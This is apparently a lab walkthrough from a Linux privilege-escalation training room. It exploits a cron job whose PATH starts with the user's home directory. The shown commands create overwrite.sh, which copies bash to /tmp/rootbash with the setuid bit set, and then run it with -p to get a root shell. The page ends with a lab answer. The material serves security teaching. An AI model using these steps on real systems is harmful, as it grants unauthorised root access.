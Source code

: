 View the contents of the system-wide crontab:  

`cat /etc/crontab`

![[Pasted image 20240222230120.png]]

Note that the PATH variable starts with **/home/user** which is our user's home directory.

Create a file called **overwrite.sh** in your home directory with the following contents:

#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash

![[Pasted image 20240222230239.png]]


Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

![[Pasted image 20240222230324.png]]


Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

![[Pasted image 20240222230417.png]]

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

`rm /tmp/rootbash   exit`

Answer the questions below

| Question | Answer    |
| -------- | --- |
| What is the value of the PATH variable in /etc/crontab?         | /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin    |
